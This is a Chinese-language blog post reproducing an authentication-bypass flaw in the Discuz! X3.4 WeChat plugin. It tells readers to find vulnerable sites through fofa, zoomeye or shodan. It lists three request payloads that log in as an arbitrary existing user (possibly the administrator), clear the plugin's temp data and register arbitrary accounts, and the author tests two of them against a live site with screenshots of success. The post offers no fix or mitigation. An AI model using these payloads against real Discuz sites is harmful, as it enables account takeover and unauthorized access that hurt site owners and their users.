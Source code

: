 ## 前言

下午回到宿舍看到文章，特地复现一波  
文章来源：

https://gitee.com/ComsenzDiscuz/DiscuzX/issues/IPRUI
<https://www.sk15.net/archives/119.html>


## 正文

上fofa或zoomeye或shodan用语法找给dz3.4的站来测试  
![](https://s2.ax1x.com/2019/02/18/kcMOlq.png)

文章给出的payload有三个

```php 
随机登陆一个账号(登录tmp里的的第一个用户，如果admin在第一个就可以直接登admin)
/plugin.php?id=wechat:wechat&ac=wxregister&username={username}

清空tmp

/plugin.php?id=wechat:wechat&ac=unbindmp&uid={uid}&hash={csrf_hash}

注册账号

/plugin.php?id=wechat:wechat&ac=wxregister&username={username}&wxopenid=abcdefg
```
第一个payload测试

`php http://www.xxx.com/plugin.php?id=wechat:wechat&ac=wxregister&username=disjkdjsaiodasd`![](https://s2.ax1x.com/2019/02/18/kcQm7D.md.png)

返回主页刷新一下(注意右上角)  
![](https://s2.ax1x.com/2019/02/18/kcQ09s.png)

第二个payload是清空tmp的，清空后第一个payload就无法使用所以这里不测试

第三个payload是任意注册用户的

`php /plugin.php?id=wechat:wechat&ac=wxregister&username={填你自己想的用户名}&wxopenid={这里的id可以乱填}`比如下图所示：  
![](https://s2.ax1x.com/2019/02/18/kcQv8A.png)

返回主页刷新  
![](https://s2.ax1x.com/2019/02/18/kcQzvt.png)

成功注册  
![](https://s2.ax1x.com/2019/02/18/kclCb8.png)

这里我试了一下dz3.3的，不行好像只有3.4才可以